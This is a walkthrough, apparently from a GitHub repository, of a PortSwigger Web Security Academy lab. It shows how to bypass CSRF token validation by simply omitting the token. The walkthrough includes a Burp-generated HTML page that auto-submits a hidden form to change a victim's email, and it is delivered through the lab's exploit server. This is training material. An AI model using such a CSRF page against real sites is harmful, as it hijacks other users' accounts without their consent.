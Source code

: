 [Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)
## Task
The email address change functionality in this lab is vulnerable to CSRF.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
We can log in to our account using the following credentials: `wiener:peter`
## Solution
Go to the task page

![image](images/20241224170405.png)

Log in to the `weiner` account

![image](images/20241224170451.png)

Change the email and intercept the request via `Burp Suite`. In this case, we can simply erase the token along with `csrf=` and send a request that will work.

![image](images/20241224170755.png)

After that, right-click and then `Engagement tools > Generate CSRF PoC`. Change the email in the request and copy the HTML code
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af1003f03c0af4d81a416e2008900ff.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testfordex1d&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](images/20241224170841.png)

Go to `Exploit Server` and paste the HTML code into the `Body` field

![image](images/20241224171020.png)

Click `Store` and `Deliver exploit to victim`

![image](images/20241224171059.png)
